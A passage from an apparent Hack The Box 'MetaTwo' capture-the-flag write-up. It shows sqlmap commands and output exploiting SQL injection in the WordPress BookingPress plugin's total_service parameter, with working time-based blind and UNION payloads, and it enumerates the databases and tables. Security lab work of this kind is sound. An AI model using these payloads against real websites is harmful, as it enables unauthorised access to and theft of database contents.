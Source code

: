 		┌──(root💀kali)-[~/htb/metatwo/10.10.11.186/exploit]
		└─# sqlmap -r booking.req -p total_service --batch --dbs
		---
		Parameter: total_service (POST)
		    Type: time-based blind
		    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
		    Payload: action=bookingpress_front_get_category_services&_wpnonce=221f0d0bf9&category_id=33&total_service=1) AND (SELECT 7909 FROM (SELECT(SLEEP(5)))TrGN) AND (3800=3800
		
		    Type: UNION query
		    Title: Generic UNION query (NULL) - 9 columns
		    Payload: action=bookingpress_front_get_category_services&_wpnonce=221f0d0bf9&category_id=33&total_service=1) UNION ALL SELECT NULL,CONCAT(0x7162707671,0x454c54705963694f4179576f4973705a6f62646e4e706e5a664a4d5466584c4b4d6762674f537964,0x716b717871),NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -
		---
		[11:55:39] [INFO] the back-end DBMS is MySQL
		web application technology: Nginx 1.18.0, PHP 8.0.24
		back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
		[11:55:39] [INFO] fetching database names
		available databases [2]:
		[*] blog
		[*] information_schema
		```
		> Databases
		> - `blog`
		> - `information_schema`
		{: .prompt-info}
	2. Enumerate tables in `blog` database
		```
		┌──(root💀kali)-[~/htb/metatwo/10.10.11.186/exploit]
		└─# sqlmap -r booking.req -p total_service --batch -D blog --tables
		---
		Parameter: total_service (POST)
		    Type: time-based blind
		    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
		    Payload: action=bookingpress_front_get_category_services&_wpnonce=221f0d0bf9&category_id=33&total_service=1) AND (SELECT 7909 FROM (SELECT(SLEEP(5)))TrGN) AND (3800=3800
		
		    Type: UNION query
		    Title: Generic UNION query (NULL) - 9 columns
		    Payload: action=bookingpress_front_get_category_services&_wpnonce=221f0d0bf9&category_id=33&total_service=1) UNION ALL SELECT NULL,CONCAT(0x7162707671,0x454c54705963694f4179576f4973705a6f62646e4e706e5a664a4d5466584c4b4d6762674f537964,0x716b717871),NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -
		---
		[12:01:23] [INFO] the back-end DBMS is MySQL
		web application technology: Nginx 1.18.0, PHP 8.0.24
		back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
		[12:01:23] [INFO] fetching tables for database: 'blog'
		Database: blog
		[27 tables]
		+--------------------------------------+
		| wp_bookingpress_appointment_bookings |
		| wp_bookingpress_categories           |
		| wp_bookingpress_customers            |
		| wp_bookingpress_customers_meta       |
		| wp_bookingpress_customize_settings   |
		| wp_bookingpress_debug_payment_log    |
		| wp_bookingpress_default_daysoff      |